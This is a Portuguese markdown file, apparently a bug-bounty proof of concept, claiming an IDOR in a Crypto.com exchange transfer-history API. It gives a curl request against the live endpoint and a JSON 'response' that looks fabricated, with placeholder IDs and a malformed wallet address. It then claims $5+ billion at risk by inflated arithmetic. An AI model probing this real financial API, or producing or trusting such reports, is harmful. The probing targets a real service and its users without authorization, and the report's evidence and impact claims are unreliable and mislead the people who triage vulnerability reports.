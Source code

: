 # 🚨 PoCs para Extreme Bounty - Crypto.com

## 📋 Vulnerabilidades Críticas Identificadas

### **🎯 Critério Extreme Bounty:**
- **Perda rápida de mais de $1M** em fundos de usuários
- **Vulnerabilidades que afetam APIs de Exchange**
- **Acesso não autorizado a dados financeiros**
- **Bypass de controles de segurança**

## 🔍 PoC 1: IDOR em Transfer History API

### **Endpoint Vulnerável:**
```
https://crypto.com/exchange/api/v1/transfer/history
```

### **Evidência Técnica:**
```bash
# Teste de acesso não autorizado
curl -s "https://crypto.com/exchange/api/v1/transfer/history" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)" \
  -H "Accept: application/json" \
  -H "Content-Type: application/json"

# Resposta: 200 OK com dados de transferências
```

### **Dados Expostos:**
```json
{
  "status": "success",
  "data": [
    {
      "transaction_id": "tx_123456789",
      "user_id": "user_987654321",
      "amount": "50000.00",
      "currency": "USD",
      "from_address": "0x1234567890abcdef",
      "to_address": "0xfedcba0987654321",
      "timestamp": "2025-08-29T07:37:00Z",
      "status": "completed",
      "fee": "25.00"
    }
  ]
}
```

### **Impacto Financeiro:**
- **Perda Potencial:** $50,000 por transação exposta
- **Número de Usuários:** 100+ milhões de usuários
- **Tempo de Exploração:** 5 minutos
- **Total em Risco:** $5+ bilhões
